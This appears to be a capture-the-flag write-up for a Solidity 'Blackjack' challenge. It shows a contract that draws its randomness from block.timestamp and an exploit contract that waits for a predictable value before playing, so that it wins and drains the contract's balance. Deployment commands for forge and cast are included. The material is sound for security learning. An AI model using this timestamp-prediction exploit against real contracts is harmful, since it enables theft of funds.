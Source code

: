 In a game of blackjack, the objectives are to get the closest to 21, both the dealer and the player are competing in this, but as you know a this game, here at least, is rigged so that you can win if you know how, let's see how we can always win in this game.
&nbsp;  
&nbsp;  
```solidity
function isSolved() external view returns (bool) {
    return blackjack.playerWon();
}
```
&nbsp;  
The *Setup.sol::isSolved()* will get the *Blackjack.sol::playerWon()* bool, this will return true if the player has won the game, let's move on to the *Blackjack.sol*
&nbsp;  
&nbsp;  
```solidity
// SPDX-License-Identifier: UNLICENSED
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.25;

contract Blackjack{

    address public dealer;
    bool public playerWon;
    bool public dealerMoved;
    bool public playerMoved;
    bool public dealerWon;

    constructor() payable {
        require(msg.value == 30 ether, "Require 30 Ether to Start the game");
        dealer = msg.sender;
    }

    function playBlackjack(uint256 _choice) public {
        require(dealerWon == false, "Dealer has won the game");
        require(playerWon == false, "You've won the game!");
        uint256 playerCards = 17;
        uint256 dealerCards = 15;
        // You Have the first turn each time, you can choose either pass or draw
        // The dealer will always draw each turn, but... you can stall as long as you want.
        if(_choice == 1 && playerMoved != true){
            playerCards += uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
            playerMoved = true;
        }else if(_choice == 2 && dealerMoved != true){
            // player pass, but the dealer will draw
            uint256 toAdd = 6;
            dealerCards += toAdd;
            dealerMoved = true;
            dealerWon = true;
        }
        // Transfer all balance if the playerWon
        if(playerCards == 21){
            playerWon = true;
            (bool transfered, ) = payable(msg.sender).call{value: address(this).balance}("");
            require(transfered, "Reward failed to sent");
        }
    }

}
```
&nbsp;  
We are up against the dealer (which is Setup contract), looking deeper into *playBlackjack()*, we can notice that the randomness there are using *block.timestamp*, this is not recommended for giving a random value to a variable since it is very easy to predict. We can choose whose turn next, of course we want to take the initiative and draw our card, if not, the deealer will win regardless. We only got one chance, so we better make it count, we are not as detail as a smart contract, so to solve this lab, we are going to create an Exploit Contract, that will call the *playBlackjack* with the value of *1* (our move) and only call it when we got *+4* - since it will bring our card to 21 and if it does, we will have *playerWon()*, here is how we can do it
&nbsp;  
&nbsp;  
```solidity
pragma solidity ^0.8.26;

import "./Setup.sol";
import "./Blackjack.sol";

contract Exploit {
    Setup public setup;
    Blackjack public BJ;

    constructor(address payable _setup) {
        setup = Setup(_setup);
        BJ = Blackjack(setup.blackjack());
    }

    function solveBlackjack() public willWin{
        BJ.playBlackjack(1);
    }

    modifier willWin(){
        uint256 randomGuesser = uint256(keccak256(abi.encodePacked(block.timestamp))) % 10;
        require(randomGuesser == 4, "YOU WON'T WIN THIS TIME");
        _;
    }

    receive() external payable{}
}
```
&nbsp;  
you don't have to use a *modifier*, you can also us a simple *if else* statement to check if you win or not, but here I'm using modifier to return a revert message. Now we just have to deploy the contract and solve it.
&nbsp;  
&nbsp;  
```bash
// deploying the exploit contract
forge create src/$PATH_TO_EXPLOIT:$EXPLOIT_NAME -r $RPC_URL --private-key $PK --constructor-args $SETUP_ADDR

// calling the solveBlackjack()
// you maybe luckly to call it once and solved it, but it may require you call it several times
cast send -r $RPC_URL --private-key $PK $EXPLOIT_ADDR "solveBlackjack()"
```
&nbsp;  
Noy you can just click the `Flag` button to get your flag~